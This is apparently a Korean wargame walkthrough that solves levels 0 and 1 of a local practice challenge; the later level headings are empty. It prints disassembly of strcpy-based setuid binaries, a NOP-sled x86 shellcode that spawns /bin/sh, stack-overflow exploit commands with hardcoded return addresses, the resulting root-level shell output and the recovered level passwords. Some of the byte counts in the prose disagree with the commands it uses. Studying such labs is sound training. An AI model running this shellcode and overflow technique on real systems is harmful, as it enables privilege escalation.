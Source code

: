 Wargame
=======
## 들어가기전에
lv0 비밀번호 : lv0   
알아야될 기초지식 : gdb 사용법

## lv 0
gdb로 lv1이 무슨 프로그램인지 확인해보자.   
```pwndbg> disass main   
Dump of assembler code for function main:   
   0x08048430 <+0>:	push   ebp   
   0x08048431 <+1>:	mov    ebp,esp   
   0x08048433 <+3>:	sub    esp,0x100   
   0x08048439 <+9>:	cmp    DWORD PTR [ebp+0x8],0x1    
   0x0804843d <+13>:	jg     0x8048456 <main+38>   
   0x0804843f <+15>:	push   0x80484e0   
   0x08048444 <+20>:	call   0x8048350 <printf@plt>   
   0x08048449 <+25>:	add    esp,0x4   
   0x0804844c <+28>:	push   0x0   
   0x0804844e <+30>:	call   0x8048360 <exit@plt>   
   0x08048453 <+35>:	add    esp,0x4   
   0x08048456 <+38>:	mov    eax,DWORD PTR [ebp+0xc]   
   0x08048459 <+41>:	add    eax,0x4   
   0x0804845c <+44>:	mov    edx,DWORD PTR [eax]   
   0x0804845e <+46>:	push   edx   
   0x0804845f <+47>:	lea    eax,[ebp-0x100]   
   0x08048465 <+53>:	push   eax   
   0x08048466 <+54>:	call   0x8048370 <strcpy@plt>   
   0x0804846b <+59>:	add    esp,0x8   
   0x0804846e <+62>:	lea    eax,[ebp-0x100]    
   0x08048474 <+68>:	push   eax   
   0x08048475 <+69>:	push   0x80484ec   
   0x0804847a <+74>:	call   0x8048350 <printf@plt>   
   0x0804847f <+79>:	add    esp,0x8   
   0x08048482 <+82>:	leave   
   0x08048483 <+83>:	ret   
```   
0x0804845f <+47>:	lea    eax,[ebp-0x100]   
이 부분을 보면 strcpy로 256바이트만큼의 문자열을 담을 수 있다.  

즉 ret부분까지 덮기위해서는 8바이트가 더 필요하다.  
따라서 260바이트 만큼 쓰레기 값을 담아주고 나머지 4바이트에 원하는 주소값을 넣어준다.   

```
`export SHELLCODE=`perl -e 'print "\x90"x200,"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'`
```   
또한 공격을 위한 쉘코드는 위처럼 export로 환경변수를 만들고 그 안에다가 nop값과 함께 넣어준다.   
그리고 gdb에서 ```x/2000x $esp```를 통해 알아낸 nop부분의 적당한 주소값을 ret에 넣어준다.   
이렇게 해주면 main이 끝나고 ret을 통해 nop주소로 이동을하며 쉘코드를 실행시키게 된다.

필자가 ret에 넣어줄 주소값은 ```0xffffda7c```이다.

실행결과   
```
./lv1 `perl -e 'print "a"x260, "\x7c\xda\xff\xff"'`
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa|���
$ whoami
lv1
$ id
uid=1001(lv1) gid=1000(lv0) groups=1000(lv0),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
```

성공적으로 권한을 얻은것을 확인할 수 있다.

알아낸 lv1 비번 : hello newbie!

## lv 1
gbd로 lv2가 무엇을 하는 프로그램인지 확인해보자. 
```
pwndbg> disass main   
Dump of assembler code for function main:   
   0x08048430 <+0>:	push   ebp   
   0x08048431 <+1>:	mov    ebp,esp   
   0x08048433 <+3>:	sub    esp,0x10   
   0x08048436 <+6>:	cmp    DWORD PTR [ebp+0x8],0x1   
   0x0804843a <+10>:	jg     0x8048453 <main+35>   
   0x0804843c <+12>:	push   0x80484d0   
   0x08048441 <+17>:	call   0x8048350 <printf@plt>    
   0x08048446 <+22>:	add    esp,0x4   
   0x08048449 <+25>:	push   0x0   
   0x0804844b <+27>:	call   0x8048360 <exit@plt>   
   0x08048450 <+32>:	add    esp,0x4   
   0x08048453 <+35>:	mov    eax,DWORD PTR [ebp+0xc]   
   0x08048456 <+38>:	add    eax,0x4   
   0x08048459 <+41>:	mov    edx,DWORD PTR [eax]   
   0x0804845b <+43>:	push   edx   
   0x0804845c <+44>:	lea    eax,[ebp-0x10]   
   0x0804845f <+47>:	push   eax   
   0x08048460 <+48>:	call   0x8048370 <strcpy@plt>   
   0x08048465 <+53>:	add    esp,0x8   
   0x08048468 <+56>:	lea    eax,[ebp-0x10]   
   0x0804846b <+59>:	push   eax   
   0x0804846c <+60>:	push   0x80484dc   
   0x08048471 <+65>:	call   0x8048350 <printf@plt>   
   0x08048476 <+70>:	add    esp,0x8   
   0x08048479 <+73>:	leave   
   0x0804847a <+74>:	ret  
   ```
lv1 프로그램과 크게 다른점은 없다.   

0x08048468 <+56>:	lea    eax,[ebp-0x10]   
다른점이라고하면 strcpy에 16바이트밖에 못 담는다는 것이고  
24바이트만에 ret까지 채워넣을 수 있게된다.

따라서 lv1과 같은 방법으로 문제를 풀어주면 된다.

실행결과
```
lv1@ubuntu:~$ ./lv2 `perl -e 'print "a"x20, "\xac\xda\xff\xff"'`
aaaaaaaaaaaaaaaaaaaa����
$ whoami
lv2
$ id
uid=1002(lv2) gid=1001(lv1) groups=1001(lv1)
```

알아낸 lv2 비번 : tooo easy
## lv 2

## lv 3
## lv 4
## lv 5
## lv 6
## lv 7
## lv 8
## lv 9
## lv 10
## lv 11
